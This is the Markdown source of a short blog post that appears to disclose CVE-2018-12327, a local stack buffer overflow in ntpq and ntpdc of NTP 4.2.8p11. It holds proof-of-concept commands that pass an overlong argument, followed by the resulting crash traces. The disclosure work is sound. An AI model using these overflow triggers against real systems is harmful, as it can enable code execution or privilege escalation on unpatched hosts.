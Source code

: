 ```yaml
---
layout: post
title: "[CVE-2018-12327] ntpq and ntpdc 4.2.8p11 Local Buffer Overflow"
date: 2018-06-06
categories:
    - blog
tags:
    - buffer overflow
    - stack overflow
keywords: "ntpq, ntpdc, buffer overflow"
---
```


Stack-based buffer overflow in ntpq and ntpdc of NTP version 4.2.8p11 allows a local attacker to achieve code execution or escalate to higher privileges via a long string as the argument for an IPv4 or IPv6 command-line parameter.<br>

```
$ ./ntpq -4 [`python -c 'print "A" * 300’`]

#0 0x562fcada86ce in openhost /home/user/ntp-4.2.8p11/ntpq/ntpq.c:655:12
#1 0x562fcada5f2a in ntpqmain /home/user/ntp-4.2.8p11/ntpq/ntpq.c:606:10
#2 0x562fcada4729 in main /home/user/ntp-4.2.8p11/ntpq/ntpq.c:469:9
#3 0x7f79b684982f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#4 0x562fcac96d88 in _start (/home/user/ntp-4.2.8p11/ntpq/ntpq+0xacd88)

$ ./ntpdc -4 [`python -c 'print "A" * 300'`]

#0 0x55f726641efe in openhost /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:413:12
#1 0x55f7266400d4 in ntpdcmain /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:365:10
#2 0x55f72663f269 in main /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:255:9
#3 0x7f0fc632382f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#4 0x55f7265362d8 in _start (/home/user/ntp-4.2.8p11/ntpdc/ntpdc+0x9d2d8)
```
